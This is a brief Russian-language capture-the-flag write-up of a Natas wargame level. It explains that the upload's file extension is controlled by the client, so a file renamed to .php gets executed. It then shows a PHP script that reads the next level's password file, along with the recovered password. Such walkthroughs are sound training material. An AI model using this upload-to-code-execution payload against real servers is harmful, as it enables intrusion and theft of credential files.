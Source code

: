 тут стоит обратить внимание на то, что название файла живет на стороне клиента
если его подменить на .php, то любой файл, который загружается на сервер, будет обрабатываться как страница, которую надо отрисовать при помощи пыхи, что дает возможность прочитать файл с паролем

получаем следующий скриптик
```php
<?php

#$file_path = "password.txt";
$file_path = '/etc/natas_webpass/natas13';
$myfile = fopen($file_path, "r");
print(fread($myfile,filesize($file_path)));

?>
```

и пароль
	trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC
